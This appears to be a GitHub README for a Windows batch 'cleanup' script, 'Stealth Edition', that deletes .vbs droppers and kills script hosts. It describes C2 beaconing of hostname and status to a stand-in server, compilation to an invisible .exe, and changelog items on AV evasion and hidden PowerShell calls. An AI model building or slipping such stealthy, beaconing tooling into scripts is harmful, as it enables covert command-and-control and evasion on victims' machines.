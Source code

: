 # 🧹 Enhanced System Cleanup Script v1.3 – *Stealth Edition*

**Author:** Donwell  
**Version:** 1.3  
**Date:** 2025-05-30  
**License:** Public Domain  
**Target OS:** Windows 7–11 (Admin rights recommended)

---

## 🚀 Overview

This script is designed to clean up potentially malicious `.vbs` script droppers and shut down Windows-based scripting engines. It is tailored for **stealth environments**, with **minimal visibility**, **reduced AV detection**, and **optional remote status reporting** to a configured C2 endpoint.

---

## ✅ Features

- 🔒 **Stealthy deletion** of `.vbs` files in `C:\Windows\Temp`
- 🎯 **Silent termination** of `wscript.exe` and `cscript.exe` via `WMIC`
- 🛰️ Optional **remote status reporting** (C2)
- 🔕 Minimal console output (`LOG_VERBOSE=false` by default)
- 🧱 Compatible with `.bat` or compiled `.exe` versions

---

## ⚙️ Configuration

Edit the following variables at the top of the script as needed:

```bat
set "TARGET_TEMP_PATH=C:\Windows\Temp"
set "VBS_PATTERN=*.vbs"
set "LOG_VERBOSE=false"
set "C2_URL=http://your-cdn-like-server.com/report"
set "ENABLE_C2=true"
```

> **Note:** To prevent C2 mistakes, the script skips reporting if the `C2_URL` is empty or left default.

---

## 📦 Compilation (Optional)

To convert to `.exe` from **Kali Linux, Termux, or Windows**:

1. Download **[Bat_To_Exe_Converter](https://f2ko.de/en/b2e.php)**
2. Set:
   - Mode: **Invisible**
   - Output file: `cleanup.exe`
3. Click **Compile**

Or via CLI:

```bash
wine Bat_To_Exe_Converter_CLI.exe cleanup.bat cleanup.exe
```

---

## 🛠 Usage

**Run as Administrator**:

```bash
Right-click > Run as Administrator
```

OR in an elevated shell:

```cmd
cleanup.exe
```

---

## 🔍 Logging & Status

- Script status stored in:
  - `SCRIPT_STATUS` – OK, NOADMIN, or FAILURE
  - `ERRORS` – collected error flags (e.g. `VBS_DELETE_FAILED`, `TERM_wscript_FAILED`)
- If C2 reporting is enabled, it sends:
  ```
  http://your-c2-server.com/report?hostname=HOST&status=OK&t=EClean
  ```

---

## ⚠️ Warnings

- The script **terminates system processes** and **deletes files** silently.
- Ensure it's run in a **controlled or authorized environment** (e.g. bug bounty testing scope).
- Disable or modify the C2 callback logic before public or client-facing deployments.

---

## 📚 Changelog

**v1.3 – 2025-05-30**
- Switched to `wmic` for stealth process termination
- Replaced `del *.vbs` with `FOR` loop for better AV evasion
- Hardened PowerShell call for C2 with `-NoP -W Hidden`
- Reduced echo noise for stealth unless `LOG_VERBOSE=true`

---

## 🤝 Acknowledgements

Inspired by offensive security toolkits and red team needs. If you’re using this in a bug bounty context, hats off to you for helping secure the ecosystem.
